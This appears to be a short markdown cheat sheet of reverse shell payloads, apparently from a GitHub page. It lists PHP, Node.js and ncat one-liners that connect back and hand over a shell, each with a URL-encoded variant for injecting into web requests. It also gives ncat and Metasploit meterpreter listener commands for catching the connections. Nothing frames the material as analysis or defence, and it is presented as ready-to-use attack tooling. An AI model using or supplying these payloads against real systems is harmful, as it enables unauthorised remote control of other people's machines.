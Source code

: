 # REVERSE
> PHP 
php -r '$sock=fsockopen("127.0.0.1",1337);exec("sh <&3 >&3 2>&3");'<br>
encoded uri : php%20-r%20'$sock=fsockopen(%22127.0.0.1%22,1024);exec(%22sh%20%3C&3%20%3E&3%202%3E&3%22);'

> NODE JS
require('child_process').exec('nc -e sh 127.0.0.1 1337')<br>
encoded uri : require('child_process').exec('nc%20-e%20sh%20127.0.0.1%201024');

> NETCAT 
ncat 127.0.0.1 1024 -e sh<br>
encoded uri : ncat%20127.0.0.1%201024%20-e%20sh


# LISTENER
> NETCAT<br>
$ ncat -lvnp 1024

> MSFCONSOLE<br>
$ msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 127.0.0.1; set lport 1024; exploit"
